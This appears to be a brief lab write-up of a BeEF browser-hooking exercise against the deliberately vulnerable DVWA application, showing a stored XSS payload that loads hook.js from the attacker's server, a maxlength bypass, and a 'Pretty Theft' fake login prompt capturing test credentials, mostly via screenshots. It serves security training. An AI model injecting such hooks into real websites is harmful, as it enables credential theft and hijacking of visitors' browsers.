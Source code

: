 ## Social Engineering >> Pretty Theft

1. Successfully "hooked" URL 192.168.13.25 on port 80 / Firefox

    ![pic](hook-1.PNG)  

* Picture from the DVWA website: URL 192.168.13.25/vulnerabilities/xxs_s/

**NOTE: the payload required to "hook" the DVWA website requires injecting a script. However the script (script src="http://127.0.0.1:3000/hook.js"></script) has to many words to be fully pasted into the message. In-order to fix this limitation, you must change setting in the Inspect Element. Specifically the textarea name / maxlength from 50 to 75.**

### [Picture of script too short](hook-2.PNG) 

### [Picture of script length correct](hook-500.PNG)

2. Launching the Pretty Theft Attack7

    ![pic](hook-3.PNG) 


* Victim entered the following:

    A) Email: Rob1@fake.com

    B) Password: 12345678

    ![pic](hook-4.PNG) 

* You can also see what the victim entered for EMAIL and PASSWORD in the LOGS TAB:

    ![pic](hook-5.PNG) 

* Picture of the attack from Linux Command Line

    ![pic](hook-6.PNG) 

3. From the pictures above you can see that the attack was SUCCESSFULL

## Example of a SUCCESSFULL Fake Notification Attack

![pic](hook-7.PNG) 

## Example of a SUCCESSFULL Get Geolocation (Third Party) Attack

![pic](hook-8.PNG)

## Example of a SUCCESSFULL Port Scanner Attack

![pic](hook-9.PNG)

